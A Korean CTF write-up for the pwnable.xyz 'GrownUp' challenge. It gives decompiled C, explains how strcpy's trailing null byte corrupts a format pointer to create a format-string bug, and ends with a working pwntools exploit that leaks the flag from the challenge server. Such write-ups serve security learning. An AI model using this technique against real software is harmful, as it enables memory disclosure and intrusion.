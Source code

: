 ```yaml
---
title: "[pwnable.xyz]GrownUp"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
---
```


setup함수는 설정해주는데 format_ptr로 format들 주소 가르키고 있다.

```c
unsigned int setup()
{
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  signal(14, handler);
  format_ptr = &format1;
  format1 = '%';
  format2 = 's';
  format3 = '\n';
  return alarm(60u);
}
```

메인은 간단하다. buf가 y인지 입력받고 read로 128바이트 입력받고 strcpy로 usr라는 bss영역에 값을 넣어준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *src; // ST08_8
  __int64 buf; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setup();
  buf = 0LL;
  v6 = 0LL;
  printf("Are you 18 years or older? [y/N]: ", argv);
  *(&buf + (read(0, &buf, 16uLL) - 1)) = 0;
  if ( buf != 'y' && buf != 'Y' )
    return 0;
  src = malloc(132uLL);
  printf("Name: ", &buf);
  read(0, src, 128uLL);
  strcpy(usr, src);
  printf("Welcome ", src);
  printf(format_ptr, usr);                      // %s
  return 0;
}
```

strcpy할때 \0이 붙어서 1바이트 추가되는 것을 이용하면 된다. read할 때 128만큼 채워주면 뒤에 1바이트 \0이 붙는다. 그거 이용하면 된다. 그러면 format_ptr에서 0x0000000000601160에서 1바이트 더 써지니까 0x0000000000601100이 된다. 그래서 포인터가 0x0000000000601100 주소 가르키니까 포맷스트링이 깨진다. 여기서 FSB이용해서 풀면 된다.

[y/N] 입력받을 때 16만큼 입력받으니까 앞에 y로 맞춰서 return 0 안되도록 하고 data영역에 있는 flag주소를 넣어서 스택에 값을 써준다. 그리고 fsb로 %p로 flag 주소를 찾은 다음에 %s로 출력해주면 된다. 

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./GrownUpRedist')
#p = process('./GrownUpRedist')
p = remote('svc.pwnable.xyz',30004)
flag= 0x0000000000601080

p.sendafter(':','Y'*8 + p64(flag))

payload = 'AAAAAAAA'
payload += '%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %s'
payload += 'A' * (0x80 - len(payload))
# print len(payload)
p.sendlineafter(':',payload)

p.interactive()
```

